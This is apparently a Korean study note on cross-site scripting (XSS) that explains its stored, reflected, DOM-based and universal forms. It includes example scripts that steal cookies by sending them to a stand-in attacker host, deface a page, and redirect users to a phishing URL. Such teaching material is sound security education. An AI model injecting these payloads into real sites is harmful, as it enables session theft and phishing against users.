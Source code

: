 # XSS

XSS는 Cross-site Scripting의 약어이며 SQL injection과 함께 웹 상에서 가장 기초적인 취약점 공격 방법의 일종이다. <br>
공격자가 웹 리소스에 악성 스크립트(ex javascript)를 삽입한 후 이용자가 스크립트를 실행하게 되면 의도치 않은 행동이 수행 되거나 쿠키나 세션등의 민감한 정보가 탈취 될 수 있다.<br>
XSS는 발생 형태에 따라 Stored XSS, Reflected XSS, DOM-based XSS,  Universal XSS로 나뉜다.<br>

* Stored XSS : XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
* Reflected XSS : XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS
* DOM-based XSS : XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
* Universal XSS : 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

## XSS 스크립트 예시
다음은 dreamhack에서 제공한 XSS스크립트 예시이다.<br>

* 쿠키 및 세션 탈취 공격 코드
```javascript
    <script>
    // "hello" 문자열 alert 실행.
    alert("hello");
    // 현재 페이지의 쿠키(return type: string)
    document.cookie; 
    // 현재 페이지의 쿠키를 인자로 가진 alert 실행.
    alert(document.cookie);
    // 쿠키 생성(key: name, value: test)
    document.cookie = "name=test;";
    // new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
    // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
    </script>
```

* 페이지 변조 공격 코드
```javascript
    <script>
    // 이용자의 페이지 정보에 접근.
    document;
    // 이용자의 페이지에 데이터를 삽입.
    document.write("Hacked By DreamHack !");
    </script>
```

* 위치 이동 공격 코드
```javascript
    <script>
    // 이용자의 위치를 변경.
    // 피싱 공격 등으로 사용됨.
    location.href = "http://hacker.dreamhack.io/phishing"; 
    // 새 창 열기
    window.open("http://hacker.dreamhack.io/")
    </script>
```

## Stored XSS
Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS이다. <br>
예를 들어, 게시판에 글을 올릴때 악성 스크립트를 포함시켜 작성한다면 그 글을 여는 모든 이용자들이 공격 대상이된다. 

## Reflected XSS
Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생한다. <br>
Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생한다. 따라서 공격을 위해서는 타 이용자에게 악성 스크립트가 포함된 링크에 접속하도록 유도해야 한다. 